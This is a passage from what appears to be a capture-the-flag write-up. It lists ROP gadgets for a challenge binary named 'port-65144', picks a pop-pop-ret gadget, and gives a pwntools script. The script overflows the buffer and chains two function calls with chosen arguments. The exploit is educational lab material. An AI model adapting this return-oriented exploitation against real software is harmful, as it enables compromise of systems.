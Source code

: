 ```bash
0x0804929a : pop ebp ; cld ; leave ; ret
0x08049431 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a3 : pop ebp ; ret
0x08049430 : pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a0 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049022 : pop ebx ; ret
0x0804942f : pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a2 : pop edi ; pop ebp ; ret
0x080494a1 : pop esi ; pop edi ; pop ebp ; ret
0x08049433 : popal ; cld ; ret
0x0804901a : sal byte ptr [edx + eax - 1], 0xd0 ; add esp, 8 ; pop ebx ; ret
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Those above are gadgets, and I just grep for `pop` that is the one we need, I can see that we have a `pop; pop; ret;` in the address `0x080494a2`, so I will update my exploit like this:

```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

poppopret = pwn.p32(0x080494a2)  # gadgets try ROPgadget

f1 = pwn.p32(0x8049256)     # func1 address
f1arg1 = pwn.p32(0x9c)      # 1st argument of func1
f1arg2 = pwn.p32(300)       # 2nd argument of func1

f2 = pwn.p32(0x804929e)     # func2 address
f2arg1 = pwn.p32(0x0)       # 1st argument of func2
f2arg2 = pwn.p32(0xd)       # 2nd argument of func2
f2arg3 = pwn.p32(0xd)       # 3rd argument of func2

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + func1 address + poppopret + 1st arg f1 + 2nd arg f1
+ func2 address + JUNK + 1st arg f2 + 2nd arg f2 + 3rd arg f2
"""
payload = buff.encode() \
    + f1 \
    + poppopret \
    + f1arg1 \
    + f1arg2 \
    + f2 \
    + 'JUNK'.encode() \
    + f2arg1 \
    + f2arg2 \
    + f2arg3

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```
